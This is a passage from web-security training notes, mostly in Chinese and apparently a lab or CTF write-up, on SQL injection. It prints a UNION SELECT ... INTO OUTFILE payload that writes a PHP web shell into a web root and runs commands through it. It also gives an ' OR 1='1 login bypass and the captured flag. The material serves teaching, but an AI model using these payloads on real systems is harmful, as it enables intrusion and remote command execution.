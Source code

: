 - [INTO OUTFILE 1](https://www.cnblogs.com/tijun/p/8671217.html)
- [INTO OUTFILE 2](https://kknews.cc/zh-tw/code/e8ngvpq.html)
- [SQLi in INTO OUTFILE 1](https://blog.csdn.net/Blue_Starry_sky/article/details/88119353)
- [SQLi in INTO OUTFILE 2](https://ithelp.ithome.com.tw/articles/10240102)


- payload : ```' UNION SELECT 1,"<?php echo '<pre>'; system($_GET['cmd']); echo '</pre>';?>",3,4 INTO OUTFILE '/var/www/html/eef4a6d53c97b055136de86e412b42ac/shell.php'--%20```
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_26)

- 這裡的結果顯示 Book not found .... ，可以得知SQL query 成功被執行
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_27)

- Go to the page which we just store the web shell 
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_28)

- 試著執行command 
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_29)

### Reference 

- [Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [INTO OUTFILE 1](https://www.cnblogs.com/tijun/p/8671217.html)
- [INTO OUTFILE 2](https://kknews.cc/zh-tw/code/e8ngvpq.html)
- [SQLi in INTO OUTFILE 1](https://blog.csdn.net/Blue_Starry_sky/article/details/88119353)
- [SQLi in INTO OUTFILE 2](https://ithelp.ithome.com.tw/articles/10240102)


<h2 id=ctf>CTF</h2>

- 接下來是今天training 的總結，一個藏有SQL injection 和 XSS 的網站
- 先是個 login page ，應該很明顯是要sql injection 嘗試登入
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_1)

- 是一下在username 欄位放入payload 
- payload : ```' OR 1='1 --  ```
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_2)

- 結果頁面沒有發生變化，試試看在password 隨便放一個錯誤的值
- 跳到一個顯示錯誤訊息的page
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_3)
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_4)

- 從上面的嘗試可以知道，SQL Injection 的問題點應該是在password input box 上，而且這裡的欄位都需要填入值，不然會有種沒有執行的感覺，就直接繼續顯示login page 


- 嘗試了上面的payload 確實登入了，登入後可以看到裡面有個flag 
- flag{sql_1nject1on}
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_5)

- 底下還有個contact admin (看來就算輸入admin 登入也不是admin...)，要變成admin 應該有其他方式
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_6)
